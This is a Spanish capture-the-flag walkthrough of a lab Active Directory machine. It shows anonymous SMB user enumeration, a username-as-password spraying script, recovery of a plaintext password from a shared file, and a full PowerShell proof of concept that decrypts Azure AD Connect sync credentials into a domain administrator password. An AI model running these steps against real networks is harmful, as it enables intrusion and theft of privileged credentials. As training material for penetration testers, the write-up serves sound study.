

## Enumeration

Después de hacer nuestra enumeración con nmap, reconocemos que nos estamos enfrentando a un directorio activo, en esta seccion de maquinas Medium voy a hacer énfasis en el directorio activo, así que vamos a ver en profundidad  herramientas básicas de enumeración, reconocimiento y explotación.


Algo a destacar del escaneo es el nombre del dominio `MEGABANK.LOCAL` que guardaremos en nuestro _/etc/hosts_.

##### Enumerando sin credenciales

No tenemos credenciales ni usuarios para tirar del hilo, los scripts basicos de nmap no reportaron nada llamativo como poder listar archivos compartidos con el usuario Anonymous, así que vamos a usar [NetExec](# 'Herramienta de explotación de servicios de red que ayuda a automatizar la evaluación de la seguridad de redes grandes.') probando si podemos listar usuarios.

```bash
nxc smb -u '' -p '' --users
```



Ya tenemos una lista de usuarios válidos en el sistema, sabemos tambien que la cuenta de servicio Azure AD Connect es _**AAD_987d7f2f57d2**_, esto seguramente sea importante mas adelante  si la podemos llegar a comprometer, seguramente podamos extraer información delicada o hashes, pero por ahora tenemos que encontrar unas credenciales de algun usuario, iba hacer fuerza bruta a todos los usuarios pero antes de eso suelo probar el tipico admin admin. 

- Extraeremos en una lista los usuarios validos que tenemos y lo guardaremos en un archivo `users`.

```
nxc smb 10.10.10.172 -u ''  -p '' --users  | awk '{print $5}' | grep -v '\[' | tail -s 10 > users
```
<snap style="font-size:12px">_Con esto ya tendremos nuestro archivo de usuarios_</span>

#### Password same-as-username

- Script en bash para probar usuarios.

```bash
#!/bin/bash

users="username"

while IFS= read -r linea; do 
  echo "Ejecutando: nxc smb 10.10.10.172 -u $linea -p $linea"
  nxc smb 10.10.10.172 -u "$linea" -p "$linea"
done < "$users"

```


El script nos reporta que el usuario _SABatchJobs_ usa su mismo nombre como contraseña, suelo probar esto antes de empezar a hacer fuerza bruta uno por uno, me resulta mucho mas silencioso y en alguna ocasión puedes llegar a descubrir que un usuario si la ha cagado como  es el caso. 

Hacemos un comprobación, para ver si el usuario tiene permisos de listar archivos compartidos.

```
nxc smb 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --shares
```


En este caso hay dos archivos que me llaman mucho la atencion el _"azure_uploads"_, que al intentar ver el contenido vemos que esta vacio y luego tenemos el directorio _"Users$"_ que contiene varios directorios vacios menos el directorio **mhope**.Para leer y descargar los archivos utilicé la herramienta [smbmap](# 'herramienta de pentesting para enumerar recursos SMB, listar permisos de compartidos y leer/escribir archivos remotos desde la línea de comandos.') de la siguiente manera.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'Users$'
```
<span style="font-size:12px">_Con esto consigo listar los archivos o directorios que contiene Users$_</span>


La intrusión me parecio bastante sencilla, así que vamos a aprovechar para jugar con bash. Me hice otro archivo con los directorios que se pueden listar.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' -r 'Users$' | awk '{print$8}' | tail -n 4 > UsersSMB
```
Y ahora jugamos con un one liner usando el archivo que acabamos de crear.

```bash
while IFS= read -r line; do echo "Ejecutando: \
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p \
'SABatchJobs' -r 'Users$/$line'";smbmap -H 10.10.10.172 \
-u 'SABatchJobs' -p 'SABatchJobs' -r "Users$/$line" 2>&1; echo "$line" ;done <"usersSMB"
```


Tenemos algo, el directorio _'mhope'_, contiene un archivo azure.xml para descargarlo seguiremos usando `smbmap`.

```bash
smbmap -H 10.10.10.172 -u 'SABatchJobs' -p 'SABatchJobs' --download 'users$/mhope/azure.xml
```
Nos descargará un archivo .xml con información confidencial.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```
BIEN tenemos credenciales del usuario mhope, probemos si tiene acceso remoto vía winrm con NetExec.

```bash
nxc winrm 10.10.10.172 -u 'mhope' -p '4n0therD4y@n0th3r$'
```


Al entrar en el escritorio del usuario encontraremos la primera flag.

#### Escalando privilegios 

En este paso si me perdí bastante, no sabia por donde empezar, pero recorde que estabamos en un entorno que usa Azure, este fue el indicio del comienzo, así que empece mi busqueda por internet al respecto, estuve buscando muchísimo, hasta que encontre este, realmente siento que fue el unico que esta actualizado y que te da información concreta [XPN's](https://blog.xpnsec.com/azuread-connect-for-redteam/).

Ya que _**Azure AD Connect**_ es una especie de puente entre el Directorio activo y el servicio en la nube de Azure, que su principal funcion es de autenticar y autorizar identidades en la nube y en esta ocasion es lo que vamos a estar explotando. Ya que Azure guarda las claves y hashes en un LocalDB, estaremos usando el poc de Adam Chester.

##### PoC Escalando Privilegios


- Primero tienes que modificar lo [★](https://gist.githubusercontent.com/xpn/0dc393e944d8733e3c63023968583545/raw/d45633c954ee3d40be1bff82648750f516cd3b80/azuread_decrypt_msol.ps1) para obtener conexion, en la variable $client tendrás que agregar en -ArgumentList un Server=127.0.0.1 para que pueda conectarse, esto dara varios errores pero al final tendrás las contraseñas.

```java
Write-Host "AD Connect Sync Credential Extract POC (@_xpn_)`n"

$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Data Source=(localdb)\.\ADSync;Initial Catalog=ADSync"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()

$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()

add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)

$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```
Esto nos devolverá las claves, fue tedioso hacer que funcionara pero bueno, son un poco de ingenio se pudo.

```
Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```
Ya solo queda Conectarnos vía [Evil-Winrm](# 'cliente de post-explotación para WinRM (Ruby) que permite autenticarse, ejecutar comandos remotos y transferir archivos en máquinas Windows; muy usado en pentesting.') con las credenciales que nos acaban de dar. en el escritorio encontraremos la flag final

